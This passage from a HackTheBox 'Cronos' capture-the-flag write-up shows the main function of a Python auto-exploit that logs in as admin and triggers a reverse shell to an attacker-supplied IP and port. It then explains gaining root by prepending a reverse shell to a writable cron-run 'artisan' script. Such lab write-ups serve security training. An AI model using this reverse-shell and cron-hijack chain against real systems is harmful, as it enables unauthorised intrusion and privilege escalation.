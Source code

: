 ```py

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox Cronos AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)

    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the payload
    createPayload(lhost,lport)
    # Login as admin
    LoginAdmin(rhost)
    # Get Reverse shell
    getReverse(rhost,lhost,payload)

if __name__ == '__main__':
    main()
```

Let's begin our privilege escalation

# cronos -> root

We see on crontab that the script `artisan` is executed every minute on the system

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-15-HackTheBox-Cronos/2021-12-15-HackTheBox-Cronos%2001:26:38.png)

And it's writable by www-data

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-15-HackTheBox-Cronos/2021-12-15-HackTheBox-Cronos%2001:27:01.png)

We add a reverse shell on the top of it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-15-HackTheBox-Cronos/2021-12-15-HackTheBox-Cronos%2001:30:15.png)

Wait one minute, and got root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-15-HackTheBox-Cronos/2021-12-15-HackTheBox-Cronos%2001:30:30.png)

# Code Analysis

